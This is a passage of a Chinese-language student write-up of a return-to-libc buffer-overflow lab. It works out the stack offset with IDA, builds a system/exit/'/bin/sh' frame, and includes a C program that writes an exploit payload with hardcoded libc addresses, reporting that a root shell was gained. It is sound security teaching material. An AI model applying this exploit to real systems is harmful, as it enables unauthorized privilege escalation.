 **注意这里编译的文件名长度和retlib一致，不一致的情况之后会讨论**

这里直接编译课件中查找环境变量地址的程序，'/bin/sh' 的地址是 `0xbffffe1c` 

## Task 3: Exploiting the Buffer-Overflow Vulnerability

objdump是开源灵车人的选择，菜菜选择IDA按F5玩一年：
![picture 9](images/0f6b9f35a8d018e90a749597a7a008df023a0effadd9bbb1e7604dc2583a91da.png)  

可见溢出的区域被编译成了20字节大小，跳过ebp之后应该从第24字节开始构造ROP链：

| ebp | 调用函数 | 调用函数的返回地址 | 调用函数的参数 |
| --- | --- | --- | --- |
| 随意 | system | exit | /bin/sh | 

注意上表是四字节对齐，填写的都是地址。  

根据上表的解释和之前得到的地址填完构造badfile的程序：  

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv){
    char buf[40];
    FILE *badfile;
    badfile = fopen("./badfile", "w");

    *(long *) &buf[0x14+12] = 0xbffffe1c ; // "/bin/sh" ✰
    *(long *) &buf[0x14+4 ] = 0xb7e42da0 ; // system() ✰
    *(long *) &buf[0x14+8 ] = 0xb7e369d0 ; // exit() ✰
    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```
编译执行，成功得到root shell  
![picture 7](images/ec76827cc14f8d01fbee0fb028d1f0a9b32d4ba8e23d9d7194826aa022f5d537.png)  
